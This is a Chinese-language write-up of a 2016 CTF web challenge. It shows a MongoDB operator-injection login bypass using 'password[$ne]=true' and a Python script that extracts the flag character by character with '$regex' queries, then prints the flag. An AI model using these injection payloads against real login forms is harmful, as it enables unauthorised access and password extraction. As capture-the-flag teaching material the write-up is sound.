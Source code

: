 title: '[MMA CTF 2nd 2016] Get the admin password 100'
author: bananaapple
tags:
  - web
  - sql injection
  - MMA CTF 2nd 2016
categories:
  - write-ups
date: 2016-09-06 00:45:00
---

# 漏洞解析

感謝隊友 Ann Tsai 試出來漏洞

我這裡負責剪尾刀把 script 寫完

大概試了一下可以發現漏洞是 sql injection 

只是由於 database 是 nosql 稍微有點不一樣

相關內容可以參考以下的這篇文章

https://www.idontplaydarts.com/2010/07/mongodb-is-vulnerable-to-sql-injection-in-php-at-least/

POST http://gap.chal.ctf.westerns.tokyo/login.php

user=admin&password[$ne]=true&submit=true

就能夠成功登入

`$ne` 是 `not equal` operator

所以說要是資料庫裡的 password not equal 輸入的 password

就能夠成功登入

接下來的 payload 就會利用控制 operator 的方式爆出密碼

# payload

mongoDB 可以使用的 operator 可以參考以下連結

https://docs.mongodb.com/manual/reference/operator/query/

在這裡我使用的 `regex` operator

想法是 `regex` 的 pattern 使用 `^TWCTF{` 

代表 `TMCTF{` 開頭的字串

然後一個一個字元加 把 flag 爆出來

注意一下跳脫字元即可

payload 如下

```python3
#!/usr/bin/env python3
import requests
import string
import re
url = 'http://gap.chal.ctf.westerns.tokyo/login.php'
flag = '^TWCTF{'
print(string.printable)
while True:
    for c in string.printable:
        qq = flag+re.escape(c)
        print(qq)
        payload = {'user': 'admin', 'password[$regex]': qq,'submit': True}
        r = requests.post(url,payload)
        if 'TWCTF{...}' in r.text:
            flag+=c
            print(flag)
            break
```

# flag

```
TWCTF{wasshoi!summer_festival!}
```